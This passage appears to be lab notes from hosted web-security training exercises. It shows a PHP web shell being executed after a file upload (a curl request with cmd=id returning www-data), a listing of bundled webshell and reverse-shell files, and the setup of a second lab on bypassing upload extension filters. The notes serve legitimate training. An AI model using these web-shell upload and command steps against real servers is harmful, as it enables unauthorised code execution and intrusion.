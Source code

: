 ```http
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4062


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	  <a href='uploads/test.php'>File Uploaded Succesfully</a> 📌                      </div>

[...]
```

`curl -X GET 'https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/uploads/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

### Bypassing File Upload Extension Filters

#### Lab Environment

**Vulnerable Nginx II**

Nginx, even though young by World Wide Web years, is as popular as Apache today. In this series of challenges, we hope to explore how attackers can exploit webapps running on Nginx  arising due to server misconfigurations and/or application vulnerabilities. Take a look at the scenario below.

The web portal only <u>allows the user to upload files with restricted extensions (i.e. jpg, png, etc.)</u>. But <u>a misconfiguration in PHP configuration file (`php.ini`) allows PHP code execution for uploaded files</u>.

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/`:
```
https://nloypzwkgvoaeogqnqkuhgst7.eu-central-5.attackdefensecloudlabs.com/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.4.6], IP[172.104.229.221], JQuery, PHP[5.5.9-1ubuntu4.25], 📌 Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25], nginx[1.4.6]
```
